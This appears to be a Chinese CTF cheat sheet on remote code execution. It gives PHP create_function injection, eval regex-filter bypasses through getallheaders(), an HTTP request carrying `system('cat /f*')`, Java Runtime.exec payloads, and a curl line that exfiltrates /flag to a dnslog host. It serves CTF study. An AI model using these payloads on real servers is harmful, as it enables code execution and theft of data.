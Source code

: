 [CTF 中的 RCE](https://mp.weixin.qq.com/s/ur09Tx6saXd_FiMuhVltBQ)

# PHP

## 无参数 rce

- [Ezrce](https://mp.weixin.qq.com/s/lTcijxa9eoWMm0TRKwJh_A)

```php
show_source(session_id(session_start()));

/*
// 请求
Cookie: PHPSESSID=/flag
...
Upgrade-Insecure-Requests:1

name=hahaha&qaq=show_source%28session_id%28session_start%28%29%29%29%3b
*/
```

## create_function 函数

`create_function` 函数根据传递的参数创建匿名函数，并为该匿名函数返回唯⼀的名称
函数语法: `string create_function(string $arges , string $code)`

```php
<?php
$id=$_GET['id'];
$code='echo'.$func.'test'.$id.'.';
create_function('$func',$code);
?>
```

`create_function` 函数会创建虚拟函数转变成如下代码

```php
<?php
$id=$_GET['id'];
function func($func){
    echo "test".$id;
}
```

当 id 传⼊`1;}phpinfo();/*`时 就可以造成代码执⾏
Payload:

`http://127.0.0.1/test.php?id=1;}phpinfo();/*`

拼接后为, 把后面都注释了。

```php
<?php
$id=$_GET['id'];
function func($func){
  echo "test".1;}phpinfo();/*;
}
?>
```

## `[^\W]+\((?R)?\)` bypass

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
    eval($_GET['code']);
} else {
    show_source(__FILE__);

}
// ?code=var_dump(get_defined_vars());&aaa=phpinfo()
```

- \w 匹配大小写字母、数字和下划线，
- \W 匹配非大小写字母、数字和下划线。
- `[^\W]` 为\W 取反=\w。\(和\)匹配()
- (?R)递归匹配, aaa(bbb())，或 aaa()。

进阶版

```php
<?php
highlight_file(__FILE__);
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){
        eval($_GET['star']);
    }
}
```

bp 发包

```sh
GET /bo0g1pop.php?star=eval(pos(array_reverse(getallheaders()))); HTTP/1.1
Host: faf83665-1a88-473a-b765-ddd33c6cf370.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarder-Proto: system('cat /f*');
Upgrade-Insecure-Requests: 1
```

解 2

```sh
Paylaod:bo0g1pop.php?star=print_r(getallheaders()); 然后随便添加个参数：newstar=phpinfo();
?star=eval(array_rand(array_flip(getallheaders())));

array_reverse
array_flip()函数，它会将传进来的数组进行一个键和值的互换，这样的话phpinfo();就变成键了，
array_rand(),
```

# Java

```java
new java.util.Scanner(java.lang.Runtime.getRuntime().exec('cat /flag').getInputStream())
select new java.io.BufferedReader(new java.o.FileReader("/flag") ).readLine()
// you need java bash encode the {command}
java.lang.Runtime.getRuntime().exec('{curl `read /flag`.1ue.dnslog.pw}')
```
